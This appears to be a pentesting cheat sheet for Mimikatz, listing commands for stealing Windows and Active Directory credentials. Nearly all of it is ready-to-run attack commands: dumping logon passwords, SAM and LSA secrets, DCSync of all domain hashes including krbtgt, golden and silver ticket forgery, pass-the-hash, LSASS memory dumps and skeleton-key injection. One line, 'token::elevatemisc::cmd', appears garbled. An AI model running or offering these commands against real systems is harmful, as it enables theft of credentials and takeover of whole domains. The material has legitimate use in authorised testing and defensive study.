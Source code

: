 # Mimikatz

## **Starting Mimikatz**

#### **Interactive Mode**

```
.\mimikatz.exe
```

#### **Single Command Execution**

```
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```

#### **Enable Debug Privileges**

```
privilege::debug
```

## Core Commands

#### **General Commands**

```
help                     #List all available commands
exit                     #Quit Mimikatz
log file.txt             #Log all output to a file
version                  #Display Mimikatz version
```

#### **Privilege Escalation**

```
privilege::debug         #Enable debug privileges
token::whoami            #Check the current token privileges
token::elevate           #Attempt to elevate the token privileges
token::revert            #Revert to original token
```

## Password and Hash Dumping

#### **Local Credential Dumping**

```
sekurlsa::logonpasswords     #Dump credentials of logged-in users
sekurlsa::credman            #Retrieve saved credentials in Credential Manager
```

#### **Extract NTLM Hashes**

```
lsadump::sam                 #Dump hashes from the SAM database
lsadump::lsa /inject         #Extract secrets from LSA
lsadump::secrets             #Extract stored secrets (e.g., service account passwords)
```

#### **Domain Controller Hash Extraction (DCSync)**

{% code overflow="wrap" %}

```
lsadump::dcsync /domain:example.com /user:Administrator  #Sync NTLM hash for user 
lsadump::dcsync /all /domain:example.com                 #Sync all domain NTLM hashes
lsadump::dcsync /domain:example.com /user:krbtgt         #Extract Kerberos TGT hash
```

{% endcode %}

## Kerberos Operations

#### **List and Export Tickets**

```
kerberos::list                 #List all Kerberos tickets
kerberos::list /export         #Export tickets to .kirbi files
```

#### **Pass-the-Ticket**

```
kerberos::ptt ticket.kirbi     #Inject a Kerberos ticket
```

#### **Golden Ticket Creation**

{% code overflow="wrap" %}

```
kerberos::golden /domain:<domain> /sid:S-1-5-21... /krbtgt:<hash> /user:Administrator
```

{% endcode %}

#### **Silver Ticket Creation**

{% code overflow="wrap" %}

```
kerberos::golden /domain:<domain> /sid:S-1-5-21... /target:SERVER /rc4:<hash> /user:User
```

{% endcode %}

#### **Kerberos Delegation Tickets**

{% code overflow="wrap" %}

```
kerberos::golden /domain:<domain> /sid:S-1-5-21... /user:Administrator /rc4:<hash> /service:krbtgt
```

{% endcode %}

## Pass-the-Hash

#### **Perform Pass-the-Hash Attack**

```
sekurlsa::pth /user:Administrator /domain:example.com /ntlm:<hash> /run:cmd.exe
```

#### **Combine with PowerShell**

```
sekurlsa::pth /user:Administrator /domain:example.com /ntlm:<hash> /run:powershell.exe
```

## Dumping LSASS Memory

#### **Live Dump**

Extract credentials directly from memory:

```
sekurlsa::logonpasswords         
```

#### **Offline Analysis**

```
procdump.exe -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"
```

## Generating Skeleton Keys

Inject a universal key to authenticate any domain account:

```
misc::skeleton
```

## Credential Extraction via DPAPI

#### **Extract Master Keys**

```
dpapi::masterkey /in:<file>
```

#### **Decrypt Credentials**

```
dpapi::cred /in:<credential_file>
dpapi::wifi /in:<wireless_profile.xml>
```

## Exporting and Logging

**Export Logs**

Save output to a file:

```
log log.txt
```

**Export Kerberos Tickets**

Save tickets to .kirbi files:

```
kerberos::list /export
```

## Advanced Examples and Use Cases

#### **Extracting Service Account Passwords**

```
lsadump::secrets /inject
```

#### **Bypassing RunAs Restrictions**

```
token::elevatemisc::cmd
```

#### **Stealing Cached Credentials**

```
sekurlsa::logonpasswords
```
